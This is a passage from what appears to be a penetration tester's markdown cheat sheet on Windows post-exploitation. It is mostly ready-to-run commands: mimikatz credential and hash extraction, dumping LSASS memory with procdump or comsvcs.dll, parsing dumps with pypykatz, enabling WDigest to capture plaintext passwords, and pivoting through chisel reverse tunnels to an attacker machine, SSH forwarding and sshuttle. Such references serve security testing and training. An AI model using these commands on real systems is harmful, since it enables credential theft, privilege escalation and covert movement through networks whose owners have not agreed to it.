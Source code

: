         - privilege::debug          # enable SeDebugPrivilege access (allows to debug all users' processes)
        - token::elevate            # elevate user privileges to SYSTEM
        - sekurlsa::logonPasswords  # attempt extract passwords and hashes from some sources
        - lsadump::sam              # extract hashes from sam
        - lsadump::lsa /patch
        - lsadump::cache            # extract dcc hashes
        - sekurlsa::tickets         # show kerberos' tickets in memory
        - `.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonPasswords" "exit"`
    
    - manually
        - 1) dump lsass process memory
            - task manager > Details > lsass.exe > Create dump file
            - procdump -> a Windows SysInternals tool that can be used to create memory dumps of processes
                - `$id=$(get-process lsass | select id).Id`
                - `procdump.exe -accepteula -64 -ma $id lsass.dmp`
            - comsvcs.dll -> using a native DLL
                - `tasklist /fi "imagename eq lsass.exe"`
                - `rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump $PID c:\users\user\lsass.dmp full`
        - 2) extracting hashes from dump
            - using mimikatz (choose os version and architecture as similar as possible)
                * sekurlsa::minidump C:\lsass.dmp
                * sekurlsa::logonPasswords
            - using pypykatz
                * `pypykatz lsa minidump lsass.dmp -k krb_tickets`
- other methods
    - enable wdigest (makes plaintext credentials be stored in memory) and wait someone authenticates
        * enable: `reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /d 1`
        * disable: `reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /d 0`
        * enable via cme: `crackmapexec ... -M wdigest -o action=enable`
    - disable LSA protection

### pivoting
- chisel - reverse port forwarding 
    - attacker machine: `chisel server --port $attackerPort --reverse`
    - victim machine: `chisel client $attackerAddress:$attackerPort R:1080:socks`
    - open a socks port in chisel server (port 1080 by default)
- dnscat2 - port forwarding through dns
- stealth: just using ssh
    - check [how to use openssh in windows](windows_openssh.md)
- ssh dynamic port forwarding: `ssh -D $BINDADDR:$PORT user@victim`
    - open socks port in ssh client
    - packets are routed to server
    - proxy traffic sent to the client port ($PORT) will be routed via the ssh server
- ssh local port forwarding: `ssh -L $BINDADDR:$CPORT:$ANYHOST:$SPORT user@victim`
    - open tcp port in ssh client
    - packets are routed to server
    - any traffic sent to the client port ($CPORT) will be redirected to $ANYHOST:$SPORT via the ssh server
- ssh remote dynamic port forwarding: `ssh -R $BINDADDR:$PORT user@attacker`
    - open socks port in ssh server
    - packets are routed to client
    - proxy traffic sent to the server port ($PORT) will be routed via the ssh client
    - how to protect the server?
        - ?ForceCommand
        - check scp
- ssh remote port forwarding: `ssh -R $BINDADDR:$SPORT:$ANYHOST:$CPORT user@attacker`
    - open tcp port in ssh server
    - packets are routed to client
    - any traffic sent to the server port ($SPORT) will be redirected to $ANYHOST:$CPORT via the ssh client
- sshuttle
    - `sshuttle -r user@victim 10.1.10.0/24 10.1.50.0/24`